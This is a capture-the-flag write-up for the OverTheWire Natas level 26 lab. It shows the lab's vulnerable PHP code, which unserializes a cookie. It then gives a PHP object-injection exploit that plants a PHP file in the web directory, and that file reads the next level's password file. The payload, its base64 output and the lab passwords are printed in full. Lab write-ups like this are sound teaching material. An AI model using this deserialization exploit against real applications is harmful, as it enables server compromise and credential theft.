 # Level 26

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas26.natas.labs.overthewire.org](http://natas26.natas.labs.overthewire.org)
- username: `natas26`
- password: `8A506rfIAXbKKk68yJeuTuRq4UfcK70k`

## Solution

![start](./start.jpg)

Let's see the sourcecode:

```php
...
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla

    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;

        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";

            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->initMsg);
            fclose($fd);
        }

        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }

        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }
    }

    function showImage($filename){
        if(file_exists($filename))
            echo "<img src=\"$filename\">";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);
        imagedestroy($img);
    }

    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){

            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"],
                            $_GET["x2"], $_GET["y2"], $color);
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) &&
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) &&
                        array_key_exists("y2", $object)){

                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);

                    }
        }
    }

    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }

        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }

        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>
...
```

So, to begin with, let's understand what the code does. It will draw an image either from `array_key_exists("x1", $_GET)` or `array_key_exists("drawing", $_COOKIE)`, that means either from parameters or from cookie. But initially we need to choose some `x1`, `x2`, `y1` and `y2` in the browser to create the first line, which will be serialized then and saved in a cookie `setcookie("drawing",base64_encode(serialize($drawing)));`. Let's try to make it:

![draw](./draw.jpg)

Let's analyze our cookie now with [PHP Online Compiler](https://www.programiz.com/php/online-compiler/):

![array](./array.jpg)

As we can see, it's array of our chosen points. Good. Now let's review the `Logger` class: 

```php
class Logger{
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct($file){
        // initialise variables
        $this->initMsg="#--session started--#\n";
        $this->exitMsg="#--session end--#\n";
        $this->logFile = "/tmp/natas26_" . $file . ".log";

        // write initial message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->initMsg);
        fclose($fd);
    }

    function log($msg){
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$msg."\n");
        fclose($fd);
    }

    function __destruct(){
        // write exit message
        $fd=fopen($this->logFile,"a+");
        fwrite($fd,$this->exitMsg);
        fclose($fd);
    }
}
```

It writes `initMsg` and `exitMsg` content to the file declared in `logFile`. When we serialize an object in `PHP`, only the data within the object (like the values of its properties) is saved, not the structure or methods of the class itself. If we want to manipulate or exploit a system using a serialized object, we only need to create an object of the required class, set the properties we need, and then serialize it. We can do this by writing a separate, small program that creates the object, sets its properties as desired, and outputs the serialized string. We also know, that application can access `img` directory, because it stores there files by default:

```php
<?php
class Logger {
    private $logFile;
    private $initMsg;
    private $exitMsg;

    function __construct() {
        $this->logFile = "/var/www/natas/natas26/img/pwned.php";
        $this->initMsg = "<?php echo file_get_contents('/etc/natas_webpass/natas27'); ?>\n";
        $this->exitMsg = "Got it :)\n";
    }
}

$logger = new Logger();

$serialized = serialize($logger);
print base64_encode($serialized);
?>
```

The output is:

```
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czozNjoiL3Zhci93d3cvbmF0YXMvbmF0YXMyNi9pbWcvcHduZWQucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6NjM6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7ID8+CiI7czoxNToiAExvZ2dlcgBleGl0TXNnIjtzOjEwOiJHb3QgaXQgOikKIjt9
```

So let's set this as `drawing` cookie and access [http://natas26.natas.labs.overthewire.org/img/pwned.php](http://natas26.natas.labs.overthewire.org/img/pwned.php):

![pwned](./pwned.jpg)

## Password

`natas27`:`PSO8xysPi00WKIiZZ6s6PtRmFy9cbxj3`

*Created by [bu19akov](https://github.com/bu19akov)*